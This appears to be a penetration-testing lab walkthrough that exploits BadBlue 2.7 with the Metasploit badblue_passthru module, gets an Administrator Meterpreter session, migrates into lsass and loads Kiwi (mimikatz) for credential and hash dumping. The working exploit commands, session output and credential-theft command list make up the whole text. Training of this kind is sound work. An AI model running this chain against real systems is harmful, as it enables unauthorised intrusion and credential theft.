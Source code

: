 ### Exploitation <a href="#exploitation" id="exploitation"></a>

```bash
search badblue 2.7
use exploit/windows/http/badblue_passthru
options
set TARGET BadBlue\ EE\ 2.7\ Universal
run
```

```bash
meterpreter > sysinfo
    Computer        : ATTACKDEFENSE
    OS              : Windows 2016+ (10.0 Build 17763).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows

meterpreter > getuid
    Server username: ATTACKDEFENSE\Administrator
```

### Hash Dumping - Kiwi <a href="#hash-dumping-kiwi" id="hash-dumping-kiwi"></a>

```bash
meterpreter > pgrep lsass
    604

meterpreter > migrate 604
    [*] Migrating from 4984 to 604...
    [*] Migration completed successfully.
# Meterpreter: x64/windows
```

```bash
meterpreter > load kiwi 
  Loading extension kiwi...
    .#####.   mimikatz 2.2.0 20191125 (x64/windows)
   .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
   ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
   ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
   '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
    '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/
  
  Success.
  
meterpreter > help
    Kiwi Commands
    =============
    
        Command                Description
        -------                -----------
        creds_all              Retrieve all credentials (parsed)
        creds_kerberos         Retrieve Kerberos creds (parsed)
        creds_livessp          Retrieve Live SSP creds
        creds_msv              Retrieve LM/NTLM creds (parsed)
        creds_ssp              Retrieve SSP creds
        creds_tspkg            Retrieve TsPkg creds (parsed)
        creds_wdigest          Retrieve WDigest creds (parsed)
        dcsync                 Retrieve user account information via DCSync (unparsed)
        dcsync_ntlm            Retrieve user account NTLM hash, SID and RID via DCSync
        golden_ticket_create   Create a golden kerberos ticket
```